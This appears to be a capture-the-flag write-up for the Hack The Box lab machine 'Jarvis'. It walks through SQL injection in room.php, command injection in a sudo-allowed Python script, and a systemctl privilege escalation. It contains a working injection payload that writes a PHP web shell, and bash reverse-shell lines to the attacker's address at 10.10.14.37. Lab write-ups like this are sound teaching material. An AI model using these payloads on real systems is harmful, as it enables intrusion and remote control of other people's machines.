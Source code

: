 # Jarvis

### Machine Info
![](screenshots/jarvis.png)

#### Nmap
![](screenshots/nmap.png)

#### HTTP (Port 80)

Index Page:
![](screenshots/index.png)

###### Gobuster
![](screenshots/gobuster.png)

`phpmyadmin`:
![](screenshots/phpmyadmin.png)
I tried to login with default/common credential but failed to login.

`room.php`:
![](screenshots/room.png)

The `room.php` takes argument `cod` and page shows different result when I change value. This could be vulnerable to `SQL Injection` as I can control the parameter.

#### Exploit: SQL Injection

SQL Injection to check SQL version:
```
http://10.10.10.143/room.php?cod=100%20union%20select%201,2,%20(select%20@@version),4,5,6,7
```
![](screenshots/sql_version.png)


SQL Injection for reverse shell

```
http://10.10.10.143/room.php?cod=100 union select 1,2,"<?php echo shell_exec($_GET['cmd']);>",4,5,6,7 INTO OUTFILE '/var/www/html/test.php'
```

First check for `whoami` command:
![](screenshots/sql_whoami.png)

It is working fine. Now for reverse shell:</br>
`cmd=bash -c "bash -i >& /dev/tcp/10.10.14.37/4444 0>&1"`

![](screenshots/sql_reverse.png)

`nc` listener:
![](screenshots/low_shell.png)


#### Privilege Escalation

##### www-data to user

Check for `sudo` privilege:
![](screenshots/sudo.png)

User `www-data` can run `simpler.py` as user `pepper`. Let's check for `simpler.py`:

![](screenshots/simpler.png)

I checked the code and found one vulnerability:
![](screenshots/simpler_vuln.png)

The source code have some forbidden characters to prevents command execution but it does not include `$`, `(`, and `)` signs. From the shell, we can execute system command with `$()`. The vulnerability is that when it executes ping command, option `-p`, we can execute our malicious command with `$()`.

I tried to just run command directly like this `$(reverse shell command)` but it didn't work so I just created malicious `.sh` file:
```
# shell.sh
bash -i &> /dev/tcp/10.10.14.37/5555 0>&1
```

And executes with `simpler.py` with `-p` option:
![](screenshots/simpler_exploit.png)

`nc` listener on port `5555`:
![](screenshots/user_shell.png)


##### user to root

During enumeration with simple linux enumeration script, `lse.sh`, I found the interesting binary `/bin/systemctl`:
![](screenshots/systemctl.png)

Only root and group user can execute and user `pepper` in the group `pepper` which means user `pepper` can execute this and it will be executed as root privilege.

Usually, the binary `systemctl` is used to start, stop or restart services such as `apache` web server. Therefore it is generally reserved for root or privileged users as it can make huge impact on system when it is misconfigured.


From google, I searched for this binary and found this page [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/). The page explains how this could be exploited with examples. I modified example to create service which spawn a reverse shell.

First create `root.service` file:
![](screenshots/systemctl_exploit.png)

Link and executes:
![](screenshots/systemctl_exec.png)

`nc` listener for `root` shell on port 6666:
![](screenshots/root_shell.png)


And you can get `root.txt` :)

